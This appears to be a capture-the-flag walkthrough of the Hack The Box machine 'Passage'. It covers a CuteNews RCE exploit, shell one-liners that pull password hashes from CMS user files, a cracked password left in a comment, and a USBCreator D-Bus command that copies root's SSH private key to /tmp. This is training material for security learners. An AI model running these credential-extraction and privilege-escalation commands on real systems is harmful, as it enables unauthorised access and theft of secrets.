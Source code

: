 ![](passage_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.206 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.206`
```diff
PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
```

## web server

* http server is running cutenews cms
  * **[cutenews](https://cutephp.com/):** CuteNews is a FREE, powerful and easy-to-use news management system based on flat files as a storage with quick installation, search function, file upload management, backup & restore, IP banning, permission levels supporting, flood protection and many more. Moreover Cutenews is UTF-8 fully compatible system.

* in the web page there is a rss feed link which goes here `http://passage.htb/CuteNews/rss.php` this is inside cms directory and thats how we get cms directory.
  * going to cms directory we get login page and also cms version -

    ![](screenshots/cutenews.png)

  * **Version:** 2.1.2
  * **Exploit:** [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447) **RCE** [ExploitDB](https://www.exploit-db.com/exploits/48800)

  * **msf module:** `exploit/unix/webapp/cuteNews_rce`

# web shell

* using exploitDB python script we get the web user shell on the box -

  ![](screenshots/cutenews-exploit.png)

* inside `/var/www/html/CuteNews/cdata/users/` found a file named "lines" contains some password hashes -

      for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' && echo; done

  ![](screenshots/grep-hashes.png)

  * crack the hash -

        for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' | tr '\n' ':' | sed 's/.$//' && echo ; done | sed '/^ *$/d'

    ![](screenshots/crack-the-hash.png)
	<!--paul:atlanta1-->

# user shell

## user:paul

* crack the paul password hash and the same user have shell in the box so we can try to su to user paul

  ![](screenshots/su-you-paul.png)
	
* it looks like user paul's .ssh directory coatins user nadav ssh key -

  ![](screenshots/nadav-in-ssh.png)

## user:nadav

* use that private ssh key to get nadav shell -

  ![](screenshots/nadav-is-here.png)

* something in the viminfo file - 

  ![](screenshots/viminfo.png)

  * two config file edited owned by root -

    ![](screenshots/owned-by-root.png)

* searching about these files find something interesting about USBCreator [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

  * flaw in the USBCreator D-Bus interface which:

    Allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.

	* D-Bus is a messaging system that is a core system on many Linux systems, allowing for communications between processes running on the same system. This vulnerability is in how this process, interface mistakenly allows for an attacker to trigger it to do something unintended, arbitrary write as root.

  * i don't understand it completely but found the exploit in the end of the article to just get the root

# Privesc

  * using USBCreator D-Bus interface exploit to read root ssh key -

		gdbus call -y -d com.ubuntu.USBCreator -o /com/ubuntu/USBCreator -m com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_rsa true

    ![](screenshots/root-key-on-bus.png)

